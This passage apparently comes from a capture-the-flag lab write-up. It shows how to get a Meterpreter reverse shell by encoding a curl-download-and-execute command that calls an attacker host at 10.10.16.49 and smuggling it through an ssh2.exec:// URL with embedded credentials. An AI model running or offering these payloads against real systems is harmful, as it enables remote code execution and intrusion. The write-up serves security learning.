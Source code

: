 * Upload `reverse_meterpreter` to the victim machine and execute

We want to execute this:
```bash
curl http://10.10.16.49:8081/reverse_meterpreter -o /tmp/reverse_meterpreter; chmod +x /tmp/reverse_meterpreter; /tmp/reverse_meterpreter
```

Okay, the idea is to do something like:
```bash
echo "base64encodedstring" | base64 -d | bash; 
```

So, we need to encode our payload:
```bash
Y3VybCBodHRwOi8vMTAuMTAuMTYuNDk6ODA4MS9yZXZlcnNlX21ldGVycHJldGVyIC1vIC90bXAvcmV2ZXJzZV9tZXRlcnByZXRlcjsgY2htb2QgK3ggL3RtcC9yZXZlcnNlX21ldGVycHJldGVyOyAvdG1wL3JldmVyc2VfbWV0ZXJwcmV0ZXI=
```

and now URL encode the full command:
```bash
echo+Y3VybCBodHRwOi8vMTAuMTAuMTYuNDk6ODA4MS9yZXZlcnNlX21ldGVycHJldGVyIC1vIC90bXAvcmV2ZXJzZV9tZXRlcnByZXRlcjsgY2htb2QgK3ggL3RtcC9yZXZlcnNlX21ldGVycHJldGVyOyAvdG1wL3JldmVyc2VfbWV0ZXJwcmV0ZXI=%3d+|+base64+-d+|+bash;%23
```
this is our full payload:
```bash
ssh2.exec://yuri:mustang@localhost:22/echo+Y3VybCBodHRwOi8vMTAuMTAuMTYuNDk6ODA4MS9yZXZlcnNlX21ldGVycHJldGVyIC1vIC90bXAvcmV2ZXJzZV9tZXRlcnByZXRlcjsgY2htb2QgK3ggL3RtcC9yZXZlcnNlX21ldGVycHJldGVyOyAvdG1wL3JldmVyc2VfbWV0ZXJwcmV0ZXI=%3d+|+base64+-d+|+bash;%23
```

![sending payload](image-11.png)

Now, let's go to the msfconsole, we can see there is connection:

![get connection](image-12.png)
